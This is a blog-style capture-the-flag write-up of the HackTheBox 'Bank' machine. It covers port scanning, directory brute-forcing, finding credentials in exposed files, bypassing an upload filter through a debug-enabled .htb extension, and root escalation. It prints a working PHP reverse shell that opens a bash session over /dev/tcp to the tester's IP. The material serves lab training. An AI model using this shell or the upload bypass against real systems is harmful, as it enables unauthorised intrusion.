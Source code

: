```yaml
---
layout: default
title:  "HackTheBox - Bank"
date:   2020-06-29
categories: HackTheBox
---
```


# HackTheBox - Bank
In the series of HackTheBox our next stop is ‘Bank’.

This is an Linux based machine which is tagged with ‘Easy’ severity, it was fun learning by playing with this box.But it needs lots of patience and information gathering skills to successfully exploit it.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593499809806_Screenshot+2020-06-30+at+12.19.52+PM.png)


**Tools:**

PortScan - Nmap and Masscan
Proxy - Burp Suite
Directory Search - [ffuf](https://github.com/ffuf/ffuf)
Privilege Escalation - [LinuxPrivilegeChecker](https://github.com/sleventyeleven/linuxprivchecker)

**Steps To Reproduce:**

So without any delay i just started scanning all ports and sersion configuration using masscan and nmap

**Initial Recon:**


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500049001_Screenshot+2020-06-30+at+12.23.59+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593500103632_Screenshot+2020-06-30+at+12.24.53+PM.png)


On viewing the result port 22 appeared to be unusual after surfing i didn’t find anything intresting, meanwhile i ran fuff to search directories.

On accessing port 80, we can see that default apache page is available

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501039346_Screenshot+2020-06-30+at+12.40.08+PM.png)


Dead end!!

After taking a look a forum disscussion, there was mentioned something about hostname, so with less hope i configured host name in /etc/hosts


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501195247_Screenshot+2020-06-30+at+12.43.02+PM.png)


 
I don’t know why this behaves like this, i got a web application with a login page 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501270552_Screenshot+2020-06-30+at+12.43.32+PM.png)


**Directory Search:**

After long time of struggling with login page nothing came up, so i started running fuff with different files


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501526158_Screenshot+2020-06-30+at+12.47.29+PM.png)

![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501517590_Screenshot+2020-06-30+at+12.46.46+PM.png)


******Successful login:**

After lots of scanning i found something useful


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501578621_Screenshot+2020-06-30+at+11.20.45+AM.png)


While looking at those file contents, it had some information which were encrypted,


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501656815_Screenshot+2020-06-30+at+12.50.10+PM.png)


So i started scrolling down to find anything unusual, here we go 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501700352_Screenshot+2020-06-30+at+11.22.59+AM.png)


One file appear to have different file size, on referring the file i get to know some information which lead me to login successfully


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593501778813_Screenshot+2020-06-30+at+11.23.35+AM.png)


Boom!! we are inside



![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502015116_Screenshot+2020-06-30+at+12.54.29+PM.png)


**Command Execution:**

In support tab i found file upload functionality, using which i try to upload php file which was rejected.


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502166604_Screenshot+2020-06-30+at+11.27.29+AM.png)


So this expects image file, right as traditional method i used [exiftool](https://github.com/xapax/security/blob/master/bypass_image_upload.md) to store my reverse shell content into image file

But by doing so my image got rendered and i didn’t get any shell.

During my initial recon i found some like this


     <!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->

So i try to upload my reverse shell by creating a file with .htb extension


    Reverse shell code:
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.24/1234 0>&1'");
    ?>

Finally we are into the server


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593502665235_Screenshot+2020-06-30+at+11.39.03+AM.png)


**User Flag:**

I thought www-data won’t have permission to read user.txt but to my suprise it was readable


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503586536_Screenshot+2020-06-30+at+11.40.17+AM.png)


**Privilege Escalaltion:**

So for escalating to root, basic information are required. Just transfer linuxprivilegechecker.py file to /tmp directory and run 

Based on results i found something interesting which is running as root privilege


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503876094_Screenshot+2020-06-30+at+11.57.57+AM.png)


So executing this file got me root 


![](https://paper-attachments.dropbox.com/s_AD14E45FD131F93434088725A0CFC766E5C1F08AFF2D386BCFD68253BECECA94_1593503907340_Screenshot+2020-06-30+at+12.00.44+PM.png)


Thank you, Have a good day

<div id="hyvor-talk-view"></div>
<script type="text/javascript">
    var HYVOR_TALK_WEBSITE = 961; // DO NOT CHANGE THIS
    var HYVOR_TALK_CONFIG = {
        url: '{{ page.url | absolute_url }}',
        id: '{{page.id}}'
    };
</script>
<script async type="text/javascript" src="//talk.hyvor.com/web-api/embed"></script>
